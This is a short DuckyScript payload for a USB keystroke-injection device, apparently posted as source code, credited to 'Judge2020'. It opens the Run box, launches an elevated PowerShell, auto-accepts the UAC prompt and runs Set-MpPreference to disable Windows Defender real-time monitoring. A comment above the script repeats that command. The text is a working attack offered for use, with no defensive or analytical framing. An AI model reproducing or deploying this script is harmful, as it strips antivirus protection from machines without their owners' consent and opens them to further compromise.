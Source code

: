 REM Windows defender can be disabled with PS using the following command ps
REM Set-MpPreference -DisableRealtimeMonitoring $true
```

REM An example script: 

```
REM Windows 10: Disable Windows Defender with Powershell
REM Author: Judge2020
REM author website: Judge2020.com
REM  
REM let the HID enumerate
DELAY 1000
GUI r
DELAY 200
REM my best attempt at a elevated powershell instance
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y
DELAY 200
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
STRING exit
ENTER
```
